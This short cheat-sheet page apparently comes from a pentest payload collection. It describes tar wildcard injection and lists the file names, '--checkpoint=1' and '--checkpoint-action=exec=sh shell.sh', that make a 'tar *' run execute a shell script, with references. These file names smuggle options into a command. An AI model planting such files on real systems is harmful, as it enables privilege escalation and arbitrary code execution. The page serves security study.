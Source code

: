 # TAR Command Execution

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that’s where the wildcard comes in handy.

## Exploit

These files work against a "tar *"

```powershell
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

## References

* [Exploiting wildcards on Linux - Berislav Kucan](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)
* [Code Execution With Tar Command - p4pentest](http://p4pentest.in/2016/10/19/code-execution-with-tar-command/)
* [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)